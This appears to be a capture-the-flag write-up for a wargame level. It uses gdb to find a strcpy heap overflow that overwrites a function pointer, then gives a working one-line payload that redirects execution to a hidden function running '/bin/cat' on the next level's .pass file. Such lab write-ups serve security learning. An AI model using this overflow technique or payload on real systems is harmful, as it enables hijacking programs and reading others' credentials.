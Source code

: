 # Level6

First step - testing the program

	$ ./level6
	Segmentation fault (core dumped)
	$ ./level6 coucou
	Nope

The program segfault without parameters, print "Nope" with

Waiting a password in parameter?

Start in GDB

	gdb-peda$ pdisas main
	Dump of assembler code for function main:
	   0x0804847c <+0>:		push   ebp
	   0x0804847d <+1>:		mov    ebp,esp
	   0x0804847f <+3>:		and    esp,0xfffffff0
	   0x08048482 <+6>:		sub    esp,0x20
	   0x08048485 <+9>:		mov    DWORD PTR [esp],0x40
	   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
	   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
	   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
	   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
	   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
	   0x080484a5 <+41>:	mov    edx,0x8048468
	   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
	   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
	   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x080484b3 <+55>:	add    eax,0x4
	   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
	   0x080484b8 <+60>:	mov    edx,eax
	   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
	   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
	   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
	   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
	   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
	   0x080484d0 <+84>:	call   eax
	   0x080484d2 <+86>:	leave
	   0x080484d3 <+87>:	ret
	End of assembler dump.

There is a function pointer at line "+41", the address of this function is "0x8048468"

	(gdb-peda)$ info function
	All defined functions:

	Non-debugging symbols:
	0x080482f4  _init
	0x08048340  strcpy@plt
	0x08048350  malloc@plt
	0x08048360  puts@plt
	0x08048370  system@plt
	0x08048380  __gmon_start__@plt
	0x08048390  __libc_start_main@plt
	0x080483a0  _start
	0x080483d0  __do_global_dtors_aux
	0x08048430  frame_dummy
	0x08048454  n
	0x08048468  m
	0x0804847c  main
	0x080484e0  __libc_csu_init
	0x08048550  __libc_csu_fini
	0x08048552  __i686.get_pc_thunk.bx
	0x08048560  __do_global_ctors_aux
	0x0804858c  _fini

It's the address of the function "m", there is also a non-called function "n"

	(gdb-peda)$ pdisas m
	Dump of assembler code for function m:
	   0x08048468 <+0>:		push   ebp
	   0x08048469 <+1>:		mov    ebp,esp
	   0x0804846b <+3>:		sub    esp,0x18
	   0x0804846e <+6>:		mov    DWORD PTR [esp],0x80485d1
	   0x08048475 <+13>:	call   0x8048360 <puts@plt>
	   0x0804847a <+18>:	leave
	   0x0804847b <+19>:	ret
	End of assembler dump.

Just a call to "puts"

Let's see the non-called "n" function

	(gdb-peda)$ pdisas n
	Dump of assembler code for function n:
	   0x08048454 <+0>:		push   ebp
	   0x08048455 <+1>:		mov    ebp,esp
	   0x08048457 <+3>:		sub    esp,0x18
	   0x0804845a <+6>:		mov    DWORD PTR [esp],0x80485b0
	   0x08048461 <+13>:	call   0x8048370 <system@plt>
	   0x08048466 <+18>:	leave
	   0x08048467 <+19>:	ret
	End of assembler dump.

There is a call to the "system" function with a string on parameter

	(gdb-peda)$ x/s 0x80485b0
	0x80485b0:	"/bin/cat /home/user/level7/.pass"

We can understand the goal, need to execute the "n" function

**********************************

Searching the buffer overflow of "strcpy" with my python scripts

	(gdb) r 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
	Starting program: /home/user/level6/level6 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'

	Program received signal SIGSEGV, Segmentation fault.
	0x53535353 in ?? ()

Get the offset

	./get_offset.py 53
	S => offset = 72

The offset of the overflow is 72

The payload will be : "B"*72 + "n address"

	./level6 $(python -c 'print "B"*72+"\x54\x84\x04\x08"')

Good!

Script it for reproduce!
